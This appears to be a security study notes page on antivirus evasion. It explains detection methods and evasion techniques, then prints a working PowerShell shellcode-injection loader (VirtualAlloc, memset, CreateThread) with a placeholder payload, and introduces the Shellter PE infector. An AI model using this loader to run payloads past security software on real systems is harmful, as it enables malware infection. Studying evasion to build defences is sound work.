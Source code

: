 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 🦠 Antivirus Evasion

## Antivirus detection methodologies

AV relies on multiple methods in order to detect malwares.

### Signature-based Detection

Signature-based is the most traditional method. The AV software compares files or strings against a database of known malware signatures. \
When it finds a match, it flags the file as malicious and quarantines it.

### **Heuristic-Based Detection**

Heuristics look for suspicious patterns or behaviors, such as code obfuscation, the use of certain functions often found in malware, or unusual file structures.&#x20;

### **Behavioral Detection**

Behavior based analyzes the behavior of a binary file, usually by executing the file in an emulated environment such sandboxes or virtual machines, searching for malicious actions

### **Machine Learning Detection**

Machine Learning detection uses algorithms trained on vast amounts of data to identify malware. The system learns to distinguish between legit and malicious files by collecting and analyzing additional metadata.

## Antivirus evasion methodologies

There are multiple ways to bypass AVs detections which usually used combined.

### **Obfuscators**

Obfuscators modify the malware’s code so that it appears harmless to signature-based detection tools. Common tactics include renaming variables, changing control flow, and inserting junk code that doesn’t affect the execution but hides the true intent of the malware.

### **Encryption and Packing**

Encryption and packing techniques are used to compress or encrypt the malware payload. \
The malware is packed or encrypted, so its true payload is only Unpacked or decrypted at runtime. &#x20;

### **Process Hollowing or Injection**

Process memory injection is a technique where malware injects its malicious code into the memory space of another legitimate process. The malware uses system API functions to write its payload into the address space of another process. \
Then, the code will be executed within the context of this legitimate process, making it harder for antivirus solutions to detect.

Process hollowing is a stealthy technique where a legitimate process is launched and then its memory is replaced with malicious code.\
Once the process is in memory but before it starts execution, the malware “hollows out” the legitimate process's memory, replacing it with the malicious payload.&#x20;

***

## Antivirus evasion in practice

### Process Injection

The following example will demonstrate a malicious PowerShell script involving Process Shellcode Injection combined with Obfuscators method.

The source code bellow is a PowerShell Cmdlet which defines several Windows API functions.\
These Win API Functions enable memory management allowing manipulate memory and create threads directly.  Also, the variables names use to obfuscate the code.

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;
```

The source code below shows the usage of the Win API and injecting the shellcode in to the legitimate process memory space.

```powershell
[Byte[]];   
[Byte[]] $var1 = <shellcode>

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

### Shellter

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.\
It can be used in order to inject shellcode into native Windows applications.

Shellter provides interactive mode and easy to operate.

> Our **primary focus** has been on **enhancing runtime evasion** to ensure your beacons and payloads are loaded as safely as possible against modern EDR solutions.

```
sudo apt install shellter
```

## References

{% embed url="https://www.virustotal.com/gui/" %}
VirusTotal
{% endembed %}

{% embed url="https://www.kali.org/tools/shellter/" %}
Shellter
{% endembed %}

